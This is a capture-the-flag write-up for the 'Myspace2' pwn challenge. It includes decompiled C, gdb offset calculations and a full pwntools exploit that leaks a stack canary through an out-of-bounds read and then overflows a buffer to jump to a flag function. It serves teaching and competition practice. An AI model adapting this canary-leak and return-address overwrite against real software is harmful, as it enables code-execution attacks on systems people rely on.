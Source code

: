 ```yaml
---
description: a ret2win with canary bypass pwn challenge
---
```


# Myspace2

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

given an ELF file.

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

we see here the ELF file has a stack canary. Then we run the program

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

then we decompile the program using ghidra

main:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("I really miss MySpace. At least the part about ranking my friends. Let\'s recreate it!");
  local_78 = 0x6e316e337365;
  local_70 = 0x6f72655a;
  local_68 = 0x6e6f72746e6f43;
  local_60 = 0x317978696d;
  local_58 = 0x4c68736f4a;
  local_50 = 0x70707070616947;
  local_48 = 0x746e6f6673656349;
  local_40 = 0x78636974637261;
LAB_00401636:
  menu();
  fgets(local_38,0x28,stdin);
  iVar1 = FUN_00401160(local_38);
  if (iVar1 == 4) {
    if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
      return 0;
    }
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  if (iVar1 < 5) {
    if (iVar1 == 3) {
      display_friend(&local_78);
      goto LAB_00401636;
    }
    if (iVar1 < 4) {
      if (iVar1 == 1) {
        all_friends(&local_78);
      }
      else {
        if (iVar1 != 2) goto LAB_004016cd;
        edit_friend(&local_78);
      }
      goto LAB_00401636;
    }
  }
LAB_004016cd:
  puts("Invalid option.");
  goto LAB_00401636;
}
```

this ELF has two vulnerabilities. one at edit\_friend and another at display\_friend.

```c
void edit_friend(long param_1)

{
  int iVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nEnter index to edit (0-7): ");
  fgets(local_48,0x20,stdin);
  iVar1 = FUN_00401160(local_48);
  if ((iVar1 < 0) || (7 < iVar1)) {
    puts("Invalid index!");
  }
  else {
    puts("Enter new name: ");
    fgets((char *)((long)iVar1 * 8 + param_1),0x100,stdin);
    sVar2 = strcspn((char *)(param_1 + (long)iVar1 * 8),"\n");
    *(undefined *)((long)iVar1 * 8 + param_1 + sVar2) = 0;
    puts("Friend updated.");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

```c
void display_friend(long param_1)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nEnter index to display (0-7): ");
  fgets(local_28,0x10,stdin);
  iVar1 = FUN_00401160(local_28);
  if ((iVar1 < 0) || (7 < iVar1)) {
    puts("Invalid index!");
  }
  write(1,(void *)(param_1 + (long)iVar1 * 8),8);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

now for the exploit part. first we leak canary by exploiting arbitrary read vuln at display\_friend then we ret2win by exploiting buffer overflow vuln at edit\_friend.

we then use gdb to see the memory offsets

```armasm
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401584 <+0>:	endbr64
   0x0000000000401588 <+4>:	push   rbp
   0x0000000000401589 <+5>:	mov    rbp,rsp
   0x000000000040158c <+8>:	add    rsp,0xffffffffffffff80
   0x0000000000401590 <+12>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000401599 <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040159d <+25>:	xor    eax,eax
   0x000000000040159f <+27>:	mov    rax,QWORD PTR [rip+0x2aba]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x00000000004015a6 <+34>:	mov    ecx,0x0
   0x00000000004015ab <+39>:	mov    edx,0x2
   0x00000000004015b0 <+44>:	mov    esi,0x0
   0x00000000004015b5 <+49>:	mov    rdi,rax
   0x00000000004015b8 <+52>:	call   0x401150 <setvbuf@plt>
   0x00000000004015bd <+57>:	lea    rax,[rip+0xb24]        # 0x4020e8
   0x00000000004015c4 <+64>:	mov    rdi,rax
   0x00000000004015c7 <+67>:	call   0x4010d0 <puts@plt>
   0x00000000004015cc <+72>:	movabs rax,0x6e316e337365
   0x00000000004015d6 <+82>:	mov    QWORD PTR [rbp-0x70],rax
```

this might seem confusing, but when we combine with ghidra decompile info, we know that main <+82> is where 'friends' array started and it is stored in **rbp-0x70**. We can also see where the canary is located, which is main <+21> and is stored in **rbp-0x8**.

Now we can calculate the offsets:

*   friends to canary:

    Offset = (Canary addr) - (Friends beginning addr)

    Offset = (rbp-0x8) - (rbp-0x70)

    Offset = -0x8 + 0x70 = **0x68 bytes (104 in decimal)**&#x20;
*   Canary leak:

    *   Display\_friend() function reads address from **friends\_addr + index \* 8**.

        Canary\_addr = friends\_addr + index \* 8

        (friends\_addr) + 0x68 = (friends\_addr) + index \* 8

        0x68 = index \* 8

        index = 0x68/8 = 104/8 = **13**



now after we got all the offsets we construct our exploit:

```python
from pwn import *

#p = process('./myspace2')
p = remote('myspace2.chal.idek.team', 1337)

def leak(index):
    p.sendlineafter(b'>>', b'3')
    p.sendlineafter(b'Enter index to display (0-7):', str(index).encode())
    p.recvuntil(b'Invalid index!\n')
    leaked = p.recv(8)
    return u64(leaked)

# Leak canary
canary = leak(13)
print(f"Canary: {hex(canary)}")

p.sendlineafter(b'>>', b'2')
p.sendlineafter(b'Enter index to edit (0-7):', b'0')

payload = b"A" * 104
payload += p64(canary)
payload += b"B" * 8
payload += p64(0x40129d)  # get_flag

p.sendlineafter(b'Enter new name:', payload)
p.sendlineafter(b'>>', b'4')
p.interactive()
```

#### Flag: idek{b4bys\_1st\_c00k1e\_leak\_yayyy!}
